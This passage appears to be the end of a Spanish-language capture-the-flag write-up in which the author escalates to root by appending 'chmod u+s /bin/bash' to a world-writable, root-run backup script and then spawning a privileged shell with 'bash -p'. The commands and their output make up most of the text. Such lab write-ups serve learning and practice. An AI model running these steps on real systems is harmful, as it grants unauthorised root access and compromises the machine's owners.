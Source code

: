 ```
-rw-rw-r-- 1 conx root 246 May 22 15:47 /var/backups/backup.sh
```

Vemos que si podemos por lo que vamos hacer lo siguiente:

```shell
echo "chmod u+s /bin/bash" >>  /var/backups/backup.sh
```

Ahora solo tendremos que esperar un rato, despues de esperar si listamos los permisos de la `bash` veremos lo siguiente:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Vemos que ha funcionado, por lo que tendremos que realizar lo siguiente:

```shell
bash -p
```

Info:

```
bash-5.2# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que habremos terminado la maquina.
